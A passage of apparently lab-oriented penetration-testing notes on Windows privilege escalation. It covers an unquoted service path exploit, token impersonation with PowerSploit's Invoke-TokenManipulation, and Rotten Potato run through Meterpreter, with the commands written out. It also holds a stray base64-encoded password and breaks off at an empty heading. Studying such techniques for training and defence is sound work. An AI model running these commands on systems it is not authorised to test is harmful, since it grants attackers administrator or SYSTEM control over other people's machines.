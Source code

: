 Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).

cGFzc3dvcmQxMjM= 


# Token Impersonation: 

Token Impersonation is a technique used to impersonate another logged on user. 

**With Powershell**

Powershell can be leveraged to impersonate token. 
****This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating****	

Powershell_powersploit: 

https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser" 

Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

 **Rotten Pottato**
 
 The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See Foxglove security's writeup of the exploit for more detail.
 
***Meterpreter***
Get a meterpreter shell as a service account and upload rot.exe to the box.
getuid - shows who you are, like whoami getprivs - shows you available tokens for impersonation getsystem - allows SYSTEM token impersonation directly in meterpreter if local admin use incognito - loads an extension that allows token impersonation list_tokens -u - lists available impersonation and delegation tokens
Now this is not very nice, but upload the exploit to disk Now you can use meterpreter's feature of executing binaries straight into memory and if that doesn't work upload it to disk as a dll and use rundll32 to execute it.
execute -H -c -m -d calc.exe -f /root/rot.exe upload rot.dll "c:\temp\rot.dll" execute -H -c -f "rundll32 c:\temp\rot.dll,Main Now do list_tokens -u again, and an impersonation token for SYSTEM should be available. You can then impersonate using impersonate_token "NT AUTHORITY\SYSTEM"
Congratulations, you are now system


**Lonely Potato**

